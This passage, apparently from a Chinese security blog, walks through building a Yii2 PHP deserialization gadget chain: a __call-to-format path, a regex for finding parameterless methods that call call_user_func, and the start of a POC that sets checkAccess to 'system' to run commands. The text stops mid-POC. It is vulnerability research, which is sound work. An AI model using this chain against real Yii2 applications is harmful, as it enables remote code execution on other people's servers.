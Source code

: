 ```php
            }
        }
        throw new \InvalidArgumentException(sprintf('Unknown formatter "%s"', $formatter));
    }
    
	/**
     * @param string $method
     * @param array $attributes
     *
     * @return mixed
     */
    public function __call($method, $attributes)
    {
        return $this->format($method, $attributes);
    }
```
可以发现，__call进去，就直接进format了，而format里面就会直接执行call_user_func_array，跟进一下他的参数

先跟进一下getFormatter，发现这里返回的是formatters，这个参数是我们可控的！

![在这里插入图片描述](https://img-blog.csdnimg.cn/0988b7cc6bef4ae8b96da6e7a17c947e.png)

但是另一个`$attributes`就不可控了，这里是可以执行一些**无参数的函数**，但是如果只是调用php原生的那肯定做不了什么事情，我们需要调用yii框架里面自带的无参数方法看看有没有能进一步利用的

继续全局搜索，看看有没有那个无参数方法里面调用了`call_user_func`
这里是用的正则去搜索，这个正则折腾了好久

```
function \w*\(\)\n? *\{(.*\n)+ *call_user_func
```
大概意思就是 function 开头，接着是一段字符接上()后换行，并只匹配0或1次，这里就表示无参数的函数了，但是我们可以更狠一点，直接搜索无参数方法中有`call_user_func`的，那么就继续加上`* \{`匹配前面的表达式0次或多次后加上大括号，然后在`call_user_func`前面**多次匹配**上一堆**除了换行之外的字符后加上换行**：`(.*\n)+ *`，最后加上`call_user_func`

这样就很精准的匹配到无参数方法中有`call_user_func`函数的方法了
这里找到了一个，简直不要太好打

```php
/vendor/yiisoft/yii2/rest/CreateAction.php
```
```php
public function run()
    {
        if ($this->checkAccess) {
            call_user_func($this->checkAccess, $this->id);
        }
        
		此处省略	
        
    }
```
checkAccess和id都是我们可控的！那么这条链子就打通了，我们构造一下poc
# POC1
```php
<?php
namespace yii\rest{
    class CreateAction{
        public $checkAccess;
        public $id;

        public function __construct(){
            $this->checkAccess = 'system';
            $this->id = 'whoami';
        }
```